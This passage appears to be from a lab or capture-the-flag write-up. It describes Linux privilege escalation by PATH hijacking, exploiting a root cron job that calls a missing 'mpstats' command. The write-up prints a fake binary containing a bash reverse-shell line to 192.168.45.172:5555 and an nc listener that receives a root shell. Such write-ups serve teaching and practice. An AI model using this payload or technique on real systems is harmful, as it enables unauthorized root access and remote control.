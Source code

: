 
I noticed that the script was attempting to execute a command called `mpstats`, which did not exist on the system.

### PATH Hijacking
I checked the `$PATH` environment variable:
```bash
echo $PATH
/usr/bin:/usr/local/bin:/home/hcue:/home/root:/snap/bin:/usr/local/sbin:/usr/sbin:/sbin:/bin
```

Since the user's home directory was included in the `$PATH`, I could create a malicious `mpstats` binary there:
```bash
cd /home/hcue
echo '#!/bin/bash' > mpstats
echo 'bash -i >& /dev/tcp/192.168.45.172/5555 0>&1' >> mpstats
chmod +x mpstats
```

I set up another listener:
```bash
nc -lvnp 5555
```

After waiting for the cron job to execute (approximately 60 seconds), I received a reverse shell as the root user, successfully completing the privilege escalation.